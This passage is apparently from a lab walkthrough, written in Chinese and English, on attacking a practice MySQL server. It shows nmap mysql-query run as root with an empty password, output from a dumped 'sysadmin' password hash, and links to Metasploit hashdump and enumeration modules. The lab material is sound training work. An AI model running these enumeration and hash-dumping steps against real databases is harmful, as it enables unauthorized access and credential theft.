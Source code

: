 ```
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
MAC Address: 02:42:C0:29:3F:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
```

Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.

[mysql-query](https://nmap.org/nsedoc/scripts/mysql-query.html)

对 MySQL 数据库运行查询并将结果作为表返回。

```
root@attackdefense:~# nmap -p 3306 192.41.63.3 --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-26 03:50 UTC
Nmap scan report for target-1 (192.41.63.3)
Host is up (0.000039s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-query: 
|   count(*)
|   10
|   
|   Query: select count(*) from books.authors;
|_  User: root
MAC Address: 02:42:C0:29:3F:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-529.pdf

[mysql](https://www.mysql.com/)

[Metasploit Module: MySQL Password Hashdump](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_hashdump)

[MYSQL File/Directory Enumerator](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_file_enum/)

[MYSQL Directory Write Test](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_writable_dirs/)

[MYSQL Schema Dump](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_schemadump/)

[Nmap Script: mysql-empty-password](https://nmap.org/nsedoc/scripts/mysql-empty-password.html)

[Nmap Script: mysql-info](https://nmap.org/nsedoc/scripts/mysql-info.html)

[Nmap Script: mysql-users](https://nmap.org/nsedoc/scripts/mysql-users.html)

[Nmap Script: mysql-databases](https://nmap.org/nsedoc/scripts/mysql-databases.html)
